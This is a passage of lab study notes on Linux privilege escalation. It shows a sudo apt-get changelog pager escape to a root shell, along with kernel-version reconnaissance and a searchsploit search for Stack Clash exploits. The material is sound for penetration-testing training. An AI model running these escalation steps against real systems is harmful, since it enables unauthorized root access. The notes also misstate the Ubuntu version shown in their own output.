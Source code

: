 ```
0 processes are unconfined but have a profile defined.
```
+ Above confirms that tcpdump is actively protected with a dedicated AppArmor profile

Since the first two commands from the **sudoers** file did not work, let's examine the third allowed _sudo_ command: _apt-get_
+ Returning again to GTFOBins, we'll select the first option (a).
+ The payload first runs the changelog _apt-get_ command option, invoking the _less_ application from which we can execute a bash shell
```
sudo apt-get changelog apt
!/bin/sh
```

We can try the above commands as the _joe_ user by copying them in our active shell:
```
joe@debian-privesc:~$ sudo apt-get changelog apt
...
Fetched 459 kB in 0s (39.7 MB/s)
# id
uid=0(root) gid=0(root) groups=0(root)
```

We managed to obtain a privileged _root_ shell by abusing a misconfigured sudo configuration

### Exploiting Kernel Vulnerabilities 
Kernel exploits are an excellent way to escalate privileges, but our success may depend on matching not only the target's kernel version, but also the operating system flavor, such as Debian, RHEL, Gentoo, etc

To demonstrate this attack vector, we will first gather information about our Ubuntu target by inspecting the **/etc/issue** file
+ As discussed earlier in the Module, this is a system text file that contains a message or system identification to be printed before the login prompt on Linux machines:
```
cat /etc/issue
```
+ Example output:
```
Ubuntu 16.04.4 LTS \n \l
```

Next, we will inspect the kernel version and system architecture using standard system commands:
```
joe@ubuntu-privesc:~$ uname -r 
4.4.0-116-generic
```
```
joe@ubuntu-privesc:~$ arch 
x86_64
```

Our target system appears to be running Ubuntu 16.04.3 LTS (kernel 4.4.0-116-generic) on the x86_64 architecture
+ Armed with this information, we can use <mark style="background: #D2B3FFA6;">searchsploit</mark> on our local Kali system to find kernel exploits matching the target version
+ Want to use "linux kernel Ubuntu 16 Local Privilege Escalation" as our main keywords
+ We also want to filter out some clutter from the output, so we'll exclude anything below kernel version 4.4.0 and anything that matches kernel version 4.8:
```
kali@kali:~$ searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"

Linux Kernel (Debian 7.7/8.5/9.0 / Ubuntu 14.04.2/16.04.2/17.04 / Fedora 22/25 / CentOS 7.3.1611) - 'ldso_hwcap_64 Stack Clash' Local Privilege Escalation| linux_x86-64/local/42275.c
Linux Kernel (Debian 9/10 / Ubuntu 14.04.5/16.04.2/17.04 / Fedora 23/24/25) - 'ldso_dynamic Stack Clash' Local Privilege Escalation                       | linux_x86/local/42276.c
```